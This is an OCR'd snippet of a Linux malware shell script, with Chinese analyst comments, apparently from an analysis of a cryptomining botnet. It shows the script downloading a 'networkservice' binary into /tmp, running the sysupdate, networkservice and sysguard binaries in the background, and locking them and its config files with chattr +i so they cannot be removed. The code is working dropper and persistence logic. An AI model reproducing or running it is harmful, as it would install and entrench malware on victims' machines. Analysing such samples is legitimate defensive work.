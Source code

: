 ```
# 下面的流程除了目录换成/tmp,别的没啥改动
if [ -f "/tmp/networkservice" ]
then # 此处跟上面一样是filesize2，估计是原封复制
filesize2=`ls -l /tmp/networkservice | awk '{ print $5 }'`
if [ "$filesize2" -ne "$scan_size" ]
then
pkill -f networkservice
rm /tmp/networkservice
downloads $scan_url /tmp/networkservice $scan_url_backup
else
echo "no need download"
fi
else
downloads $scan_url /tmp/networkservice $scan_url_backup
fi
 
ps -fe|grep sysupdate |grep -v grep
if [ $? -ne 0 ]
then
echo "not tmp runing"
cd /tmp
chmod 777 sysupdate
sleep 5s
./sysupdate &amp;
else
echo "tmp runing....."
fi
ps -fe|grep networkservice |grep -v grep
if [ $? -ne 0 ]
then
echo "not tmps runing"
cd /tmp
chmod 777 networkservice
sleep 5s
# 还是优先级15
nice ./networkservice 15 &amp;
else
echo "tmps runing....."
fi
 
ps -fe|grep sysguard |grep -v grep
if [ $? -ne 0 ]
then
echo "not tmps runing"
cd /tmp
chmod 777 sysguard
sleep 5s
./sysguard &amp;
else
echo "tmps runing....."
fi
 
# 同样的加锁
chmod 777 /tmp/sysupdate
chattr +i /tmp/sysupdate
chmod 777 /tmp/networkservice
chattr +i /tmp/networkservice
chmod 777 /tmp/sysguard
chattr +i /tmp/sysguard
chmod 777 /tmp/update.sh
chattr +i /tmp/update.sh
chmod 777 /tmp/config.json
chattr +i /tmp/config.json
```